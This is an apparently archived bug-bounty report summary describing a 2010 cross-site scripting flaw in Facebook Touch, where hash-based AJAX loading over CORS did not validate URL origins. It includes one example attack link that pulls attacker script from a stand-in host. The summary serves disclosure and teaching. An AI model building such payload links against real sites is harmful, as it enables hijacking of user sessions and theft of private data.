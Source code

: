# Facebook XSS via Cross-Origin Resource Sharing

**Target**: Facebook

**Reported on**: Unspecified

**Bug Type**: business_logic

**Severity**: High

**Report URL**: https://maustin.net/articles/2010-07/facebook_html5

## Summary
A security researcher discovered a serious business logic flaw in Facebook Touch's use of HTML5 and Cross-Origin Resource Sharing (CORS) in 2010. The mobile interface dynamically loaded URLs via AJAX based on the window hash, and failed to restrict these URLs to Facebook-owned domains. As a result, attackers could inject external URLs that were loaded and executed client-side due to CORS, enabling cross-site scripting (XSS). This allowed attackers to run arbitrary JavaScript in a user's session, potentially exposing private data, sending messages, or escalating privileges. The vulnerability was client-side and left no server traces. Once reported, Facebook fixed the issue within a day by implementing client-side URL origin validation.

Key points:
- The bug exploited HTML5 CORS combined with unsafe dynamic AJAX content loading.
- Attackers could craft links like `http://touch.facebook.com/#http://malicious.com/exploit.js`.
- Malicious scripts could control the user's session and interact with Facebook on the user's behalf.
- The underlying issue was not validating URL origins in JavaScript, an example of weak business logic in new web technology adoption.

_This summary was partly generated by AI_

## Bounty received ($)
Unspecified

## References
- https://maustin.net/articles/2010-07/facebook_html5
## Tags
- business-logic
- api
- cors
- xss
- client-side
- html5
- validation
